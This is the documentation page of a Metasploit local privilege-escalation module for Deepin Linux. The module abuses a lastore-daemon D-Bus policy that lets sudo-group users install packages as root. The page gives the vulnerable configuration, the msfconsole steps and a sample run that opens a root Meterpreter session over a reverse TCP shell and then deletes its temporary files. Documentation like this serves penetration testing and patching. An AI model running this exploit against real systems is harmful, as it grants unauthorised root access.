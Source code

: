 ## Description

  This module attempts to gain root privileges on [Deepin Linux](https://www.deepin.org/en/) systems
  by using `lastore-daemon` to install a package. It may cause audio and/or graphical signals confirming
  the installation of the payload package.


## Vulnerable Application

  The `lastore-daemon` D-Bus configuration on Deepin Linux permits any
  user in the `sudo` group to install arbitrary system packages without
  providing a password, resulting in code execution as root. By default,
  the first user created on the system is a member of the `sudo` group.

  The D-Bus configuration in `/usr/share/dbus-1/system.d/com.deepin.lastore.conf`
  permits users of the `sudo` group to execute arbitrary methods on the
  `com.deepin.lastore` interface, as shown below:

  ```xml
  <!-- Only root can own the service -->
  <policy user="root">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>

  <!-- Allow sudo group to invoke methods on the interfaces -->
  <policy group="sudo">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>
  ```

  This module has been tested successfully with lastore-daemon versions:

  * 0.9.53-1 on Deepin Linux 15.5 (x64)
  * 0.9.66-1 on Deepin Linux 15.7 (x64)

  Deepin Linux is available here:

  * https://www.deepin.org/en/mirrors/releases/

  `lastore-daemon` source repository is available here:

  * https://cr.deepin.io/#/admin/projects/lastore/lastore-daemon
  * https://github.com/linuxdeepin/lastore-daemon/


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/lastore_daemon_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

```
  msf > use exploit/linux/local/lastore_daemon_dbus_priv_esc 
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Building package...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/control' (98 bytes) ...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/postinst' (28 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.1sZZ46ozIH' (207 bytes) ...
  [*] Installing package...
  [*] Sending stage (857352 bytes) to 172.16.191.200
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.200:51464) at 2018-03-24 18:45:29 -0400
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/control
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/postinst
  [+] Deleted /tmp/.1sZZ46ozIH
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN
  [*] Removing package...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.200
  OS           : Deepin 15.5 (Linux 4.9.0-deepin13-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

